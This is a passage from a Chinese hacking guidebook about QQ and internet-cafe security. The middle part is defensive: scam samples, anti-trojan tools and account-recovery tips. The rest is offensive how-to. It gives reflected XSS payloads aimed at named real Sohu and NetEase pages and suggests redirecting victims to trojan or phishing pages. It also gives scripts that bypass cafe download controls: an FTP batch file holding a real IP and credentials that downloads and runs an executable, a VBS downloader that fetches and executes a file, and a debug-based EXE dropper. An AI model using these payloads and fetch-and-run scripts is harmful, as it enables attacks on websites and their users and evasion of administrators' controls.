跨站法配合乱码法：http://search.blog.sohu.com/search?type=search&q=%22%3E%3Cscript%3Ealert%28%22test%22%29%3C%2Fscript%3E&searchSubmit=%CB%D1%CB%F7
网易跨站：https://reg.163.com/logins.jsp?username="/><script>alert(/qqq/)</script>
```

如果把 `<script>alert(/qqq/)</script>` 改为 `<meta http-equiv="refresh" content="1;url=http://www.baidu.com">`，即可实现网站的转向，而 URL 中为挂马页面或者钓鱼页面时，后果会是怎样呢？

腾讯也多次出现这类类似的跨站漏洞，如果利用来钓鱼，那后果将会怎么样呢？如果在QQ中碰到恶意网址，我们可以举报到腾讯公司，这样腾讯公司就会进行处理，以后就不会再危害他人了。另外，不要相信任何天上掉馅饼的事，尽量不要打开任何陌生人发来的信息！

#### 1.5.6 拒绝QQ木马

通过以上介绍，大家不难发现，其实QQ木马的盗号方式也就以下几种：

- 1. 网站挂马传播
- 2. 邮箱附件传播
- 3. QQ群共享传播
- 4. 网络硬盘共享传播
- 5. QQ好友文件传播

俗话说：知己知彼，百战不殆。对于QQ木马，我们既然能攻，当然也应该能守！杀毒软件为防护之本，我使用的是卡巴斯基，用起来虽然占内存比较大，但杀毒效果还是不错的，如图188。


图188

360安全卫士也是一个不错的选择，它可以修复漏洞、查杀木马、消灭流氓软件等等。这些安全软件切记要及时升级，这样才可以防止最新木马病毒。针对QQ木马，QQ自带了QQ医生，在登录QQ前可以扫描一遍，如图189，特别是在网吧等这些公共上网的地方。

另外，金山、瑞星等公司也都有QQ木马专杀程序，如图190为金山的QQ尾巴专杀工具、图191为金山QQ病毒专杀工具、图192为瑞星QQ病毒专杀工具。

## 第一章 QQ版黑客之黑客入门


如果没有任何工具，在线杀马也能缓一时之急。我们登录 `http://safe.qq.com/tso`，这是QQ医生在线版，同样具有查杀木马的能力，如图193。


它为在网吧、图书馆等公共机房使用计算机的用户进行安全检查提供了应急措施，当您在使用公共计算机登录QQ之前，如果该计算机上没有安装QQ医生，请您务必使用QQ医生在线版进行检查后再进行登录。

在我们进入QQ医生在线版后，点击“开始”即可进入杀毒状态，如图194。点击“开始检查”，检测就会开始了，如图195。


图194


图195

稍等一会儿，即可看到如图196的结果，会同时显示出木马以及系统漏洞，我们进行修复就可以了。


图196

此工具不能替代防病毒产品，要保护您的计算机，请使用防病毒产品做彻底的安全检查和防护。在线杀马只是应急措施，不能完全依赖。为了更好地保护QQ号码，更要注意QQ的安全公告，相隔一段时间你可以登录 `http://safe.qq.com/affiche/` 查看一下官方的安全公告，并及时做出相应的措施。

#### 1.5.7 QQ防骗技巧

伴随商品经济的发展，各种奸商层出不穷，网络世界也不宁静，各种骗术此起彼伏。本书就来介绍骗子们是如何施骗的，从而提高警惕，进行有针对性的防御。

##### 一、防范骗取QQ号码

- 1. 冒充腾讯网站，骗取用户密码资料。通常这些骗子都会发送邮件或信息给你，如图197。
- 2. 通过伪装QQ Mail提醒用户升级，从而传播木马病毒，如图198。注意：无论邮箱地址是什么都不要随意相信，因为有软件可以冒用 10000@qq.com 邮箱！


图197


图198

- 3. 意外的中奖消息传播木马病毒，骗取QQ号码。常用QQ聊天时，会收到骗子发送的QQ信息，以下是样本实例：

```
2003-08-22 16:09:47 971XX（QQ送奖员）
恭喜您中了本公司幸运抽奖，请选择奖品（50枚Q币或会员卡一张），并输入您正确的QQ号和密码。

2004-04-22 16:09:47 1399992XX（腾讯公司）
请把您的手机号以及详细地址发给我，以便于联系。您的奖品是QQ公司提供的价值2880元的家用电脑一部，以及由移动公司提供的100小时的话费卡一张。

2004-04-13 21:24:28 130811XX（QQadmin）
您好，我是腾讯公司的职员，您的QQ已中奖。您可以收到我公司送您的QQ两个和3000元手机费，但是您必须得有手机才行。钱和QQ会发到你的手机里，只要您能收到我们公司发给您的QQ验证码，再发给我就可以了，系统会自动发到您的手机上。客服热线：0755-83765566
```

遇到这种情况时，如果打开他们发送的邮件，或QQ信息内容中的链接，也许就会中木马程序，这样您的QQ密码就会丢失。如果要求用户提交个人密码等资料，或者以其个人名义向你送出号码等礼品，他们也会借机骗取您的密码。

- 4. 发送虚假邮件骗取QQ资料。

最近有人假冒“腾讯公司”名义，利用电子邮件方式向广大QQ用户和网友发送虚假信息，大意为腾讯公司针对部分号码实行实名密码保护，要求用户提供密码保护的所有资料。这其中包括QQ号码、真实姓名、身份证号码、联系电话、详细地址、手机号码、QQ原始密码（申请该QQ号时的第一个密码）、QQ历史密码（有多少提供多少，请用 / 隔开）、证件类型（身份证／军官证／护照／其它证件／电话号码）、证件号码、提示问题、问题答案、安全信箱。

当你按照要求填写完资料而发送出去后，你的QQ就在其掌握之中了，也许还会涉及到你更广阔的网络隐私。

- 5. 游戏中奖及免费道具领取。

这是登录QQ游戏所经常看到的骗术，也是上当人数最多的骗术。在游戏中，有部分非法用户通过游戏道具“喇叭”功能，向其他用户散布虚假消息。例如：“为庆祝**，登录***网站，领取道具……”，接着就是开始我们之前讲过的网络钓鱼了！

##### 二、防范骗取开通服务

###### 1、嫁接短信，诱骗梦网密码开通服务

部分省市的用户可以用手机移动梦网的密码来开通网站的服务，行骗者利用嫁接短信的方式，在不被用户发觉的情况下，引导用户修改梦网密码并骗取到该梦网密码，通过骗取的梦网密码开通腾讯公司或其它网站的服务。

- （1）行骗者（QQ：3211xx）使用移动QQ给用户发短信，发送号为“170003211xx”（3211xx为该骗子的QQ号码），内容为：“恭喜你成功订阅了移动宝典，每月将收取服务费30元，退订请回复86（在24小时内退订不收取任何费用）。”
- （2）行骗者登录移动梦网，输入用户手机号码，点击“忘记密码”，此时梦网会自动发出：“尊敬的用户，您的密码是*****，欢迎登录移动梦网”到用户手机。
- （3）用户收到行骗者发的消息时会直觉性地想取消服务，然后再收到梦网下发的取回密码消息，还有些莫名其妙的，行骗者（QQ：3211xx）再次使用移动QQ给用户发短信，发送号为“170003211xx”，内容为：“确认关闭此服务，请尽快回复我们发给你的验证码，感谢您的使用！”
- （4）用户会想当然地回复刚收到的梦网密码，行骗者获得梦网密码，并用密码开通其它服务。

###### 2、冒充系统广播，骗取手机开通服务

具体案例：  
某用户的手机号码于10月31日收取来自 977702XX774 或 1700002XX774 的下行信息：“恭喜你成功订阅了XXX业务，每月将收取服务费30元，退订请编辑 DQ01#EXIT80 发送至921X”。

行骗伎俩：  
骗子通过QQ客户端的短信渠道下发信息给用户，目的是骗取用户的手机费用。经调查，短信内容中的“DQ01#EXIT80发送至921X”实际是某网站订制某游戏业务中获取秘籍的指令，目的是让用户收到此信息后，以为自己曾订制过某项业务，为了不再被收取费用，急忙按短信内容的指示进行“退订”。此时用户正中陷阱，原以为是退订业务，反而变成订制业务，导致自己的手机费用受到损失。

##### 三、防范骗取网站点击率

###### 1、假冒腾讯网站，骗取浏览量

一些网站打着赠送Q币或QQ号的诱惑旗号，让用户进行访问，或者要求用户输入QQ号码和QQ密码。网站的目的是靠QQ的吸引力提高浏览量，但如果别有心机，用户在此输入QQ号码和密码后，这些信息将被他人收集，从而有可能盗取您的QQ号码。

这种欺骗方式几乎随处可见，大家要记住：天下没有那么多免费的好事！

##### 四、防范骗取话费

- 1、发送非法12590广告信息，骗取电话费用。

腾讯公司接到用户投诉，反映在QQ上接到一些非法广告信息，上面会提示用户拨打某个电话，用户拨打这些号码后被扣取一定的话费。

> 我们有时候用QQ时也会收到类似信息，比如：“有一段时间没见你了，过得怎么样？最近比较少上Q，因此特意给你点了一首超好听的歌，你用手机拨：125加上90620338就可以听了，后面还有我的留言录音。^_^！记得去听，别辜负我一番心意哦！听完了也点首给我听啊！呵呵，我下了，88。”

所发的信息可能会略有变化，但都是类似这样的信息，大家在收到这些信息时请不要按要求去操作。

#### 1.5.8 QQ申诉技巧

要想QQ密码不被盗走，最重要而且最基础的方法就是使用QQ密码保护，登录QQ账号中心（https://account.qq.com/cgi-bin/index）即可进行安全设置。在这里你可以查看密保状态、升级二代密保、补充密保资料以及修改密保资料。

如果你忘记了密码保护，而且密码又丢失了，那么只好申诉了。有些人对于申诉十分不重视，其实申诉也是找回密码极其重要的方式。进入账号中心，然后选择申诉，如图199。填写你真实的相关信息，然后进入下一个页面，如图200。


图199


图200

下面提供了一些QQ账户密码申诉技巧，希望可以对你有所帮助。

- 1. 以前使用过的密码是非常关键的信息，尽力回忆一下吧。
- 2. 号码的历史主要登录地也是非常关键的信息，填写这个应该没问题。
- 3. 该号码何处申请，一般都是网站申请。申请时间大概是这样：5位1998年；6、7位1999年；8位2000—2001年。如果忘记，可以通过登录QQ社区查看论坛生日；或者登录QQ空间，查看最早的留言以及心情历程中的最早签名；QQ宠物生日也能查看，现在申请的QQ一般刚申请就可以砸蛋得宠物。
- 4. 该号码是否用手机绑定过，有的话就填上曾经绑定过的手机号码。
- 5. QQ游戏，如：你是否用过QQ游戏里面的双倍积分卡等游戏道具。
- 6. 是否赠送过别人QQ秀或某些腾讯的业务，有的话填上并注明获赠人的QQ号码。当然，这里最好能填3个月前的，因为盗号者可以用你密码在QQ账户里查到最近3个月的Q币消费记录，填早的更有说服力。
- 7. 你的网络硬盘密码、通讯录密码、QQ账户密码。这些密码也很有说服力，若不是号码的主人，一般不太可能知道这些，除非你把那些密码设成和你QQ密码一样了。
- 8. 该号码是否做过会员，有的话填上大体的时间。在会员服务期间是否克隆过好友，从哪个号码克隆的好友（如果有，这个也是个很好的证明）。
- 9. 是否向哪个群或QQ游戏家族捐献过Q币。有的话，还要填写群号码或家族名称。
- 10. 是否获得别人赠送的QQ秀或腾讯的一些服务。
- 11. 提供你QQ曾用过的昵称。要是号码是你的，以前的昵称总知道吧？要是不完全记得完整的昵称，至少也要提供以前昵称中的部分“文字”。
- 12. 是否用QQ梦想地带的积分换过奖品或某些增值服务，有的话写清兑换的奖品送与何人，或是自己使用。
- 13. 是否申请过蓝钻、红钻、黄钻等业务，并写上这些服务的获得方式和时间，如：QQ账户支付、手机支付、积分兑换或好友赠送的，以及服务开通的大致时间。
- 14. 是否上传过聊天记录，这些腾讯公司是有存档的，是十足的证明资料。

### 1.6 小结

在本章介绍了大量的QQ攻防和使用技巧，通过这些技巧的学习，可以让新手一睹网络的魅力。毕竟QQ作为一种聊天工具已经深入人心，它方便了我们的通讯，同时也带给了我们快乐。如果能够从QQ的使用中学习到应有的计算机安全知识和使用技巧，那就是本文的最终目的了。

## 卷二 网吧黑客
### 之内网横行

中国的互联网普及于网吧，在网吧中成长出来了一批批安全爱好者。网管为了便于网吧的管理，常常对网吧主机系统作出了种种限制，于是黑客们就琢磨出自己的破解方法，这样也方便了网吧用户能够在网络中自由冲浪。

同时，网吧还是一个小型的局域网，很多黑客爱好者也会在网吧展示自己的内网渗透技术，这些安全测试也考验着我们的网络管理员。正是在这些攻击与防御之中，网吧内也维持自身独有的“和谐”！

## 第二章 网吧黑客之内网横行

### 2.1 妙手化解网吧限制

在网吧上网的朋友往往会被一些限制搞得捉襟见肘，本节就来介绍一些独特的网吧破解方式，让你体会到不一般的网吧破解秘技。

#### 2.1.1 制作在线下载网页

在网吧有过破解经验的读者朋友可能见过一些在线的网吧限制破解网页，但是站长们是如何制作出这些在线破解网吧限制的网页文件的呢？比如中国安全在线网站中，网页地址为“http://www.cnsafer.com/online/ddv/ddv.htm”的页面就是一个在线的网吧破解网页，如图1。


图1

它是如何将一个EXE可执行文件，化身为可以在IE浏览器中执行的程序呢？读者朋友一定很想知道其中的原理，那么下面就来介绍几种实现方法，一定让你大开眼界。

##### 一、TEGOWEB让程序在IE中翱翔

为了制作在线运行程序，首先我们要到“http://skycn.com/soft/16331.html”去下载一个名为TEGOWEB的软件，如图2。这个软件通过 ActiveX，可以把普通的软件转化为在主页直接执行的在线文件，它的兼容性和稳定性都不错，只要不是太大型的软件，一般都可以成功地转化。


图2

这里首先来下载一款笔者编写的“网吧突破小工具”，下载地址为“http://dragonkiss.ys168.com”。之所以使用此软件，是因为该工具只有一个独立文件，方便使用 TEGOWEB 来制作在线运行的网页文件，如图3。


图3

下载回软件后运行，软件界面如图4，提供了三大类功能：磁盘访问、工具调用和下载，几乎涵盖了网吧破解的大部分功能。


图4

此时就是我们的 TEGOWEB 出马了，打开 TEGOWEB，弹出 TEGOWEB 的欢迎界面，直接单击“下一步”按钮，如图5。


图5

此时要求我们输入目标目录，这里我们可以新建一个名为“NET BAR”的目录，然后把“网吧突破小工具”拷贝进去。接着要求输入网站的网络地址，如果你的网站为 www.baidu.com，则可以输入 http://www.baidu.com/，这里我输入本机网络服务的调试地址：http://127.0.0.1，如图6。


图6

然后单击“下一步”按钮，此时要求选择要制作的程序文件，也就是选择要制作成在线运行的目标程序。因为 NET BAR 目录中只有一个 EXE 程序，所以默认此工具是被选择了的，直接单击“下一步”按钮即可，如图7。


图7

图8

此时继续单击“下一步”按钮，然后界面提示要求选择运行的程序，这里还是选择“网吧突破小工具”，在参数输入框中不用填写任何内容，然后单击“下一步”按钮，如图8。

此时出现了两个输入框，第一个输入框要求我们输入合成网页程序的 URL 地址，这里可以输入“http://127.0.0.1/网吧突破小工具/”，意思就是说，以后访问“http://127.0.0.1/网吧突破小工具/”这个地址即可在线运行我们刚才制作的程序；第二个输入框要求输入 ActiveX 插件的网络地址，这里输入“http://127.0.0.1/ACTIVEX/”即可（在后面还要上传 TEGOWEB 的 ActiveX 插件到这个 Web 目录中），如图9。

填写完毕上面的信息之后，再次单击“下一步”按钮，这里要求指定程序运行的 OCX 文件和 DLL 文件，默认选择了 TEGOWEB.OCX 文件，其他的默认即可，然后单击“下一步”，如图10。这里之所以要求添加程序使用的 OCX 文件和 DLL 文件，乃是很多程序使用到了 OCX 和……

## 第二章 网吧黑客之内网横行


图9

DLL 中提供的函数和对象，如果没有这些文件则原来的 EXE 文件无法正常运行。由于刚才笔者编写的“网吧突破小工具”没有使用到任何的 OCX 文件和 DLL 文件，所以这里不需添加任何的 OCX 文件和 DLL 文件，这样也就简化了第一次使用 TEGOWEB 来制作在线运行网页的复杂度。读者朋友可以在熟悉 TEGOWEB 的操作之后，进一步制作出大型和复杂的在线运行程序。


图10

此时，出现了 TEGOWEB 制作流程的最后一步，程序要求我们输入 HTML 网页的文件名、HTML 网页的标题以及合成的 EXE 文件名，这些通常不用修改，直接单击“完成”即可，如图11。当如图12的“制作成功”窗口出现时，在线运行的网页已经初步完成了。


图11

图12

此时在刚才的 NET BAR 目录中（笔者这里的目录路径为 `C:\Documents and Settings\Administrator\桌面\Net Bar\`）可以看到如图13的文件及文件夹。


图13

其中“网吧突破小工具”乃是在制作在线运行网页前拷贝进去的，而 TegoWizardWebExpressProject 这个目录则是 TEGOWEB 后来生成的。打开 TegoWizardWebExpressProject 这个目录，可以看到有三个子目录，如图14。


图14

其中有一个 ReleaseActiveX 子目录，读者朋友可能还记得制作前 TEGOWEB 要求我们输入“ACTIVEX”插件的网络位置，其实就是指代这个文件夹中的 ACTIVEX 文件的网络位置。此时只用把 ReleaseActiveX 子目录的全部文件上传到网站的 WWWROOT 根目录下面，并且改名为 ActiveX 即可，如图15。最后把 Release 子目录中全部文件拷贝到 WWWROOT 网站根目录下面即可完成全部制作流程。


图15

此时，我们就可以对 `http://127.0.0.1/网吧突破小工具/` 这个地址进行访问。访问时 IE 浏览器可能会阻止其中的 ACTIVEX 控件，我们只需在 IE 浏览器的阻止栏上按鼠标右键，选择“安装 ACTIVEX 控件”即可，如图16。


图16

此时会弹出一个 IE 安全警告窗口，单击“安装”按钮安装 TEGOWEB 的控件，这样就可以激活在线运行程序，如图17。


图17

此时，可以看到“http://127.0.0.1/网吧突破小工具/”地址变成了“http://127.0.0.1/%CD%F8%B0%C9%CD%BB%C6%C6%D0%A1%B9%A4%BE%DF.htm”（IE 浏览器将汉字进行了编码），并且“网吧突破小工具”在 IE 浏览器中运行了，如图18。


图18

这样，一个完整的 EXE 程序在线运行网页就制作并且运行成功了。读者朋友可以把本机网络服务器根目录下的相关文件与文件夹上传到公网 WEB 服务器上（虚拟主机或托管主机），然后把相关地址，比如“http://主机地址/网吧突破小工具/”发给自己的朋友们进行测试使用。

##### 二、制作在线下载网页之脚本也精彩

在上节介绍了如何使用在线网页下载文件，可是要使用到工具才行。本节就来给大家介绍如何制作自己的下载网页，并且不需要任何工具。

首先新建一个 FILE.TXT 文本文件，输入的内容如下，如图19。

```html
<body onload="alert('选择适当路径后点击保存即可！');document.execCommand('saveas','','无敌小龙1.exe')">
</body>
<input type=button value='另存(S)' title='点击这里另存也可' onclick="execCommand('saveas','','无敌小龙2.exe')" accesskey=s>
```

此时新建一个 CMD.BAT 文件，其中内容为：CMD.EXE，也就是调用 CMD 命令提示符，如图20；然后修改网吧突破小工具.EXE 为 NETBAR.EXE。

现在双击运行这个 CMD.BAT 文件，在弹出的 CMD 命令提示符窗口输入命令：`TYPE FILE.TXT>>NETBAR.EXE`，也就是使用 TYPE 命令把 FILE.TXT 文件中的文本内容追加到 NETBAR.EXE 这个文件之中（其中，NETBAR.EXE 就是网吧突破小工具），如图21。


图19


图20


图21

现在使用一款十六进制工具 C32ASM 打开被追加了文本内容的 NETBAR.EXE 文件，可以看到，上面的 TYPE 命令成功地把 FILE.TXT 中的文件代码追加到了 NETBAR.EXE 文件的末尾，如图22。


图22

现在找到 EXE 文件，改后缀为 HTML。打开这个 HTML 文件，如图23，此时 IE 可能会阻止其中的脚本，可以选择“允许阻止的内容”来浏览全部网页内容。


图23

浏览这个文件，等待一会儿就可以看到自动弹出一个窗口，提示“选择适当路径后单击保存即可”，如图24。


图24

此时单击“确定”按钮，马上弹出一个“保存 HTML 文档”窗口，在“文件名”输入框中输入“无敌小龙1.EXE”，然后在“文件类型”中选择“HTML 文件”，如图25。


图25

然后来到保存文件的目录，可以看到文件已经被正常地下载下来了。我们运行一下程序，看看是否正常，如图26。


图26

现在大家可以把这个 HTML 文件上传到 WEB 服务器上，然后在网吧上网时就可以访问这个 HTML 文件，从而把相关软件下载并保存在网吧主机上。

##### 三、巧用后缀做网页

在前面的内容中，我们介绍了两种制作在线运行网页、从中获得软件功能的方法。本节将给大家介绍另外一种更加有趣的制作方法，并且制作起来非常简单。

我们还是拿“网吧突破小工具”（可以到 http://dragonkiss.ys168.com 的“网吧工具”栏目下载）来做实验，把它的执行文件修改名称为“NETBAR.HTML”，如图27。


图27

可能有些朋友的电脑系统将文件后缀名隐藏了，无法进行修改，那你就需要在系统中设置下。要显示文件后缀名，先进入“资源管理器”，选择“工具”－“文件夹选项”，然后在弹出的“文件夹选项”对话框中去掉“隐藏已知文件类型的扩展名”前面的勾，如图28。


图28

此时，直接运行这个“NETBAR.HTML”文件，在弹出的 IE 浏览器窗口中，依次选择“文件”－“另存为”，如图29。


图29

此时弹出“保存网页”窗口，我们选择“保存类型”为“网页，仅 HTML”，如图30。


图30

把这个网页保存后找到这个文件，我这里是“NETBAR_HTML.HTM”文件。然后修改此网页文件为“NETBAR_HTML.EXE”，运行这个程序，正常执行成功了，如图31。


图31

根据这个思路，大家只要把那个“NETBAR.HTML”文件上传到自己的 WEB 服务器上，然后访问它就可以在线另存为一个程序了。

有些读者朋友可能对此惊异不已，其实，我们在保存网页时选择的“保存类型”为“网页，仅 HTML”，也就是说 IE 浏览器在浏览这个“NETBAR.HTML”文件时，是把此 EXE 文件作为 HTML 网页文件下载到本地并显示出来，这样我们只要另存这个网页文件，并修改后缀名为 EXE 即可正常运行程序。

好了，前面介绍的是几种制作在线浏览网页另存为程序的方法，其实网络上还有很多类似功能的网页，其制作方式可以借鉴。比如“http://www.huo119.com/online1/flashDown.html”就提供了 FLASH 形式的文件在线下载功能，如图32。有兴趣的读者可以在网络上搜索“FLASH 下载模块”，修改其中少许参数就可以使用了。


图32

另外，“http://cnsafer.com/online/”这里也提供了许多实用程序的在线下载，看看有哪些是你所需要的吧！如图33。


图33

#### 2.1.2 脚本下载防不胜防

前面介绍的方法是否使你获益匪浅、茅塞顿开？但是那些网页毕竟是做出来提供给别人使用的，有没有可以自己独家使用的独门秘技呢？悄悄地看吧，本节就来介绍如何使用脚本破解网吧的下载限制！脚本下载，防不胜防！

- 一、EXE2BAT 法

本方法需要用到 exe2bat 程序，我们先下载它，如图34。下载完毕后运行这个程序，单击“...”按钮选择网吧突破工具，最好找一个文件容量小的，因为文件容量越大，生成的 BAT 文件就越大。选择好后，单击“RUN”按钮生成 BAT 文件，如图35。


图34


图35


图36


图37

此时，即可用记事本打开这个生成的 BAT 文件，如图36，把其中的 CMD 代码放到你的邮箱、BLOG 或者网站中，如图37。我的 BAT 文件代码如下。

```bat
@echo e 100 4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00 >>tmp11
@echo e 110 B8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 >>tmp11
@echo e 120 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 >>tmp11
@echo e 130 00 00 00 00 00 00 00 00 00 00 00 B8 00 00 00 00 >>tmp11
@echo e 140 0E 1F BA 0E 00 B4 09 CD 21 B8 01 4C CD 21 54 68 >>tmp11
@echo e 150 69 73 20 70 72 6F 67 72 61 6D 20 63 61 6E 6E 6F >>tmp11
@echo e 160 74 20 62 65 20 72 75 6E 20 69 6E 20 44 4F 53 20 >>tmp11
@echo e 170 6D 6F 64 65 2E 0D 0D 0A 24 00 00 00 00 00 00 00 >>tmp11
@echo e 180 8F 8A F9 DB CB EB 97 88 CB EB 97 88 CB EB 97 88 >>tmp11
@echo e 190 48 F7 99 88 CA EB 97 88 A2 F4 9E 88 CA EB 97 88 >>tmp11
@echo e 1A0 22 F4 9A 88 CA EB 97 88 52 69 63 68 CB EB 97 88 >>tmp11
@echo e 1B0 00 00 00 00 00 00 00 50 45 00 00 4C 01 03 00 >>tmp11
@echo e 1C0 38 0B D3 48 00 00 00 00 00 00 00 E0 00 0F 01 >>tmp11
@echo e 1D0 0B 01 06 00 00 40 00 00 00 30 00 00 00 00 00 00 >>tmp11
@echo e 1E0 34 12 00 00 00 10 00 00 50 00 00 00 40 00 >>tmp11
@echo e 1F0 00 10 00 00 00 10 00 00 04 00 00 00 01 00 00 00 >>tmp11
@echo e 200 04 00 00 00 00 00 00 00 80 00 00 00 10 00 00 >>tmp11
@echo e 210 D4 45 01 00 02 00 00 00 00 10 00 00 10 00 00 >>tmp11
@echo e 220 00 00 10 00 00 10 00 00 00 00 00 10 00 00 00 >>tmp11
@echo e 230 00 00 00 00 00 00 00 D4 3E 00 00 28 00 00 00 >>tmp11
@echo e 240 00 60 00 00 50 11 00 00 00 00 00 00 00 00 00 >>tmp11
@echo e 250 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 >>tmp11
@echo e 260 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 >>tmp11
@echo e 270 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 >>tmp11
@echo e 280 00 00 00 00 00 00 00 28 02 00 00 20 00 00 00 >>tmp11
@echo e 290 00 10 00 00 B0 00 00 00 00 00 00 00 00 00 00 >>tmp11
@echo e 2A0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 >>tmp11
@echo e 2B0 2E 74 65 78 74 00 00 00 44 32 00 00 00 10 00 00 >>tmp11
```

把这些代码放到 BLOG 上后，在网吧时就可以把这些数据粘贴到记事本等编辑软件中，然后另存为 BAT 后缀的文件，再执行这个 BAT 文件，就会自动生成一个 EXE 文件，如图38。等待它生成完毕之后，即可运行这个新生成的 EXE 文件，如图39。


图38


图39

- 二、利用 FTP

大家一定知道 FTP 软件，其实 WINDOWS 系统中就自带了一款，我们可以使用 FTP 命令来操作，比如 `ftp 58.49.126.69`，这条命令是连接指定 IP，登录到 FTP 服务器。连接到 IP 后，输入 FTP 服务器的账户和密码，即可通过 GET 命令获取 FTP 服务器的文件，并且保存到本地磁盘，如图40。


图40

这样，一个网吧破解思路就浮出水面了。我们可以首先把一些网吧破解工具放到 FTP 服务器上面，然后在网吧通过 FTP 命令登录这些 FTP 服务器，最后下载网吧破解工具到本地硬盘，如图41。


图41

为了方便操作，我们把这个 FTP 命令的执行过程“封装”成为一个 BAT 文件。不过与上面使用到的 FTP 命令不同的是，在批处理中一定要用 OPEN 命令，而不能使用 FTP 命令，代码如下：

> 注意：第一行一定要用 OPEN 来连接 FTP 空间，不能使用 FTP 命令！

```bat
echo open 58.49.126.69>ftp.txt
echo xiaolong>>ftp.txt
echo 123>>ftp.txt
echo binary>>ftp.txt
echo cd tool>>ftp.txt
echo get netbar.exe>>ftp.txt
echo bye>>ftp.txt
ftp -s:ftp.txt
start netbar.exe
del ftp.txt
```

- 三、VBS 法

所谓千防万防，家贼难防，使用一个系统可以支持的 VBS 脚本就可以轻松实现对网吧下载限制的破解，相关代码如下：

```vb
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://127.0.0.1/down.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "c:\down.exe",2
```

```vb
wscript.sleep 1000
Shell.Run("c:\\down.exe")  ' 延迟过后执行下载文件
```

只要把这段代码保存为 VBS 后缀名的文件，双击并执行即可通过 XML 这个对象下载 WEB 服务器上面的文件了。这样我们通过网络下载一些网吧破解工具来操作，即可实现对网吧的破解了。

### 2.1.3 OUTLOOK EXPRESS法

OUTLOOK EXPRESS（以下简称 OE）是一款大家非常熟知的电子邮件客户端软件，这里只教大家如何使用它来实现对网吧下载限制的破解。在这之前，我们可以通过发送邮件的方式，将破解程序以附件形式添加到邮件中，并通过邮件发送给自己的邮箱。接着，就可以使用 OE 来接收这个邮件，然后打开这个附件将里面的破解程序下载到本地。

这里假设已经发出了邮件到邮箱，我们需要接收这个邮件。首先打开 IE，可以在其工具栏上找到 OE 的图标，如图 4.2。此时打开 OE，会提示输入你的姓名，如图 4.3。


图 4.2


图 4.3

点击“下一步”后提示你输入电子邮件地址，如图 4.4。输入后点“下一步”，此时要求输入 SMTP 服务器和 POP3 服务器地址。如果你的是 163 邮箱，可以按照如图 4.5 中的地址来填写。


图 4.4

输入完成后点击“下一步”，要求输入你的账户和密码，如图 4.6。可能很多读者不知道此处应该填写什么账户和密码，其实就是你邮箱的登录账户和密码。接着选择“发送／接收”下的“发送接收全部邮件”，如图 4.7，程序就会自动开始发送和接收全部邮件，如图 4.8。

## 第二章 网吧黑客之内网横行


图4.5


图4.6


图4.7


图4.8

邮件接收完毕之后，选择那封你自己发送的带附件的邮件，然后在 OE 中会出现一个曲别针的图标。单击那个图标，会看到附件中的文件，然后选择“保存附件”，如图49。

此时弹出一个“保存附件”对话框，选择一个保存的目标目录，然后单击“保存”按钮即可，如图50。

现在找到保存文件的目录，可以看到我们附件中的文件，是个压缩包，打开后里面就是程序了，如图51。


图49


图50


图51


图52

其实这个附件中的文件是我之前压缩打包的下载工具“腾讯超级旋风”，安装完毕之后如图52，现在就可以通过这个工具实现在网吧的任意下载了。

### 2.1.4 诱骗 IE 的 IMAGE 法

都说 IE 的“头脑”不聪明，这次我们就利用这点来进行计算机的下载破解。首先可以在 YS168 上传一个下载工具，然后使用管理员身份登录之后，在需要下载的工具上按鼠标右键查看“属性”，如图53。


图53

此时弹出“属性”窗口，可以看到该工具的 URL 地址，如图54。


图54

URL 地址为：http://ys-f.ys168.com/?网吧突破小工具.exe_4shsr0e0e0bshs7bt7bs0btnqrnpqn0b5bkitrmr2bu01f20f01z，这个就是 YS168 的文件网络地址，现在输入如下代码到记事本中：

```html
<image src=http://ys-f.ys168.com/?网吧突破小工具.exe_4shsr0e0e0bshs7bt7bs0btnqrnpqn0b5bkitrmr2bu01f20f01z>
```

然后把这个记事本文档保存为 DOWNLOAD.HTML 进行浏览，会显示一个“无图片”提示的红叉。现在关键部分到了，选择 IE 菜单中“文件”下的“保存”，然后在“保存类型”中选择“全部”，如图55。


图55

我把文件保存到了“D:\我的文档\download.files”，正常运行程序成功，如图56。


图56

其实 IE 也是一个下载工具，这种方法就是利用了它的图片下载功能。IE 默认是把 IMAGE 标签中的“图片”下载到本地，但是我们可以构造代码进行欺骗，让它把一个 EXE 文件当做 JPG 等文件进行下载，这样就突破了下载限制。

#### 2.1.5 不一般的QQ网络记事本

其实，真正的杀手杀人于无形。在网吧进行下载，也是一样的，真正优秀的下载破解方法就隐藏在最常见的 QQ 中。

QQ 和 TM 都有“网络记事本”功能，我在这里使用 TM 来演示如何使用它进行网吧的下载限制破解。首先进入 QQ 的网络硬盘，选择“个人助理”下的“网络记事本”，如图57。


图57

打开了 TM 或者 QQ 的“网络记事本”之后，可以选择“插入对象”菜单，如图58。


图58

此时会弹出一个“插入对象”窗口，选择其中的“由文件创建”，然后选择一个网吧破解工具，如图59。


图59

现在单击“确定”按钮，这样就把选择的文件插入到了 QQ 或者 TM 的“网络记事本”中了，如图60。


图60

不过需要注意的是，上面的操作都是在一台自由的电脑上进行操作的。当你在网吧的时候，运行 QQ 或者 TM 打开这个记事本文档，然后双击之前上传的文件，就会弹出运行窗口，如图61。

现在单击“运行”，这个工具就会被下载运行了，如图62。

大家可能也会觉得很奇特，其实这是 TM 或者 QQ 的“网络记事本”内置了下载功能，也就是把你保存在腾讯服务器上的文件可以下载到本地，这样我们就可以使用这些文件了。


图61


图62

#### 2.1.6 使用工具快速破解

上面介绍了很多种网吧限制下载的破解方法，都是手工破解方式。计算机生来就是为了替代手工劳动的，而使用计算机其实就是使用计算机软件，所以这里就来介绍一些口碑极佳，并且功能强大的网吧破解软件。

- 精锐网吧辅助工具

大家可以到 `http://www.07188.cn/soft/show.asp?id=357` 去下载“精锐网吧辅助工具”，之所以推荐在官方下载，一是因为这里网吧工具众多，二是因为没有捆绑后门，如图63。软件运行之后，界面如图64。


图63


图64


图65

